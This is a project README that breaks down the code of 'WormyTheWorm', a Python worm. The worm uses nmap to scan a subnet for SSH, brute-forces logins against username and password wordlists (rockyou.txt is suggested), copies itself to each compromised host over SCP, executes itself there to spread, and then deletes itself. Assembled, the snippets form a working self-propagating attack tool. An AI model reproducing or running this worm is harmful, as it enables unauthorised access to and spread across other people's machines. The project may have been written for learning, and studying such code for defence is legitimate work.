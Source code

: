 # WormyTheWorm
___

## Summary: 
> A Python worm that scans & infects a given subnet while replicating itself. 
> Below is a breakdown of the code, including screenshots & descriptions of the processes used. 

## Table of Contents
- [Dependencies](#dependencies)
- [NMAP](#nmap)
- [Brute Force](#brute-force) 
- [SSH and Paramiko](#ssh-and-paramiko)
- [Try/Except loop for SSH & SCP via Paramiko](#try-except-loop-for-SSH-and-SCP-via-Paramiko)
- [Output](#output)
___
## Dependencies 
&NewLine; 
```sh
import nmap
import paramiko
import sys
from scp import SCPClient
```

The functions above must be installed on the local machine for the program to run successfully. Run the 3 commands below to install each successfully. 

**Pip:**
```sh
sudo apt install python3-pip
```
**NMap:**
```sh
sudo apt-get install nmap
```
Download the configuration file from this repository called "requirements.txt" and make sure it's in your current directory, then run the following command:
```sh
pip install -r requirements.txt
```

## NMap

NMap is used to scan a given subnet & return all host IPs on the network. 

**NMap Explained**

1. A variable is defined that calls the port scanner method. 
2. **The target subnet is identified - the default port will always be 22 for SSH utilization.**
3. The command line method is initialized. 
```sh
nmScan = nmap.PortScanner()
nmScan.scan('10.0.0.0/24', '22')
nmScan.command_line()
```
1. A list called "networkhosts" is defined, which will contain the IPv4 addresses located on the subnet. 
2. A "for" loop is intialized. This loop iterates through all hosts & stores them via the append method in "networkhosts", defined above. 
```sh
networkhosts = []
for host in nmScan.all_hosts():
    networkhosts.append(host)
print(networkhosts)
```
3. "networkhosts" is printed out on the command line, showing us the list of IPv4 addresses on our subnet.

![IPs on the subnet](./printedipv4.png)

## Brute Force 

The brute force method of username / password cracking takes predefined wordlists & runs all possible combinations against a log-in barrier. The size of the wordlist will effect the success rate, but increased wordlist length correlates to an increase in time. In our example code, small wordlists of four usernames & four passwords are defined for the sake of time, but could be substituted for a longer list (such as rockyou.txt) using the path provided below: 
```sh
/usr/share/wordlists/rockyou.txt
```
The variables used by SSH/Paramiko (explained in further section) are defined in a "for" loop that will ultimately iterate through each host previously amended to "networkhosts". 
```sh
for element in networkhosts:
    host = element
    port = 22
```
The wordlists referenced above are also defined. 
```sh
usernames = ['sam','gavin','stephen','devon']
passwords = ['admin','stephen','penelope','password']
```

## SSH and Paramiko

Paramiko is Python's implementation of SSHv2 proctocol and is the crux of WormyTheWorm's ability to infiltrate hosts on a local network. 

First, two subsequent "for" loops utilize the word lists defined in the "Brute Force" section above. Each "for" loop combination contains a different combination of "users" & "pwords", and SSH is attempted via Paramiko using each one. The variables "username" and "password", which are native to Paramiko, are defined. 

```sh
for user in usernames:
        for pword in passwords:
            username = user
            password = pword
```
Next, the "command" variable is defined. This sequence is executed via the target machine's command line once SSH connection is established. This command in particular performs the following:
1. WormyTheWorm is executed - this is how the worm replicates. Identical code will be executed on the target machine, and the process will begin anew. 
2. A file called "WormyWuzHere" is created. 
3. The line "Haha no code for you :)" is written to the file above. 
4. WormyTheWorm gets deleted.
```sh
command = "./WormyTheWorm && touch 'WormyWuzHere' && echo 'Haha no code for you :)' > WormyWuzHere && rm WormyTheWorm"
```
The first line of the code below creates a new SSHCLient, and the second line allows the script to SSH to a remote server with unknown SSH keys. 
```sh
ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()
```
## Try Except loop for SSH and SCP via Paramiko

A "try block" & an "except block" are used to set a timeout limit & an appropriate response, to increase the speed of Wormy as a whole. 

Within the "try block" the following occurs (in order):
1. ssh.connect is initialized, utlizing the previously defined username, password, and host variables. The timeout is set at 5 seconds. 
2. SCP variable is defined intliazed using the SCPClient via a get_transport request. This allows the WormyTheWorm file to be transported to the host machine in preparation for execution & replication. 
3. An SCP put request that references the first item on the command line (WormyTheWorm executable) is inialized. This step places the file onto to the target machine. 
4. The previously defined command in executed on the target machine. 
5. If the above works as it should within the time limit, a message displaying the host IP & "Success :)" will be displayed. 
```sh
 try:
        ssh.connect(host, port, username, password, timeout=5)
        scp = SCPClient(ssh.get_transport())
        scp.put(sys.argv[0])
        stdin, stdout, stderr = ssh.exec_command(command)
        print(host + ' Success :)')
```
Within the "except block" the following occurs:
1. If the "try block" is unsuccessful, a message displaying the host IP & "Timeout :(" will be displayed. 
```sh
 except:
        print(host + ' Timeout :(')
```

## Output

The command line on the attacker's machine shows us a log of each attempt to **gain access to a target using a specific username and password combination.** The image below shows a portion of that log.

![output log](./log.png)

After the success on 10.0.0.154, Wormy attempts to brute force 10.0.0.188, the next target.

After the script runs, the ```ls``` command on the target machines' terminals will show if the attack was successful. If it was, "WormyTheWorm" will be included in the output. (```ls``` shows all of the files in the current directory; right after a login, ```ls``` refers to the home directory).

![wormy ls](./lswithwormy.png)

Once WormyTheWorm copies itself onto another machine, it will automatically run again. Once it finishes, it will remove itself from the machine, and create "WormyWuzHere" in the same directory. Once again, ```ls``` will show if the script successfully ran on.

![wormy's tracks](./wormtracks.png)










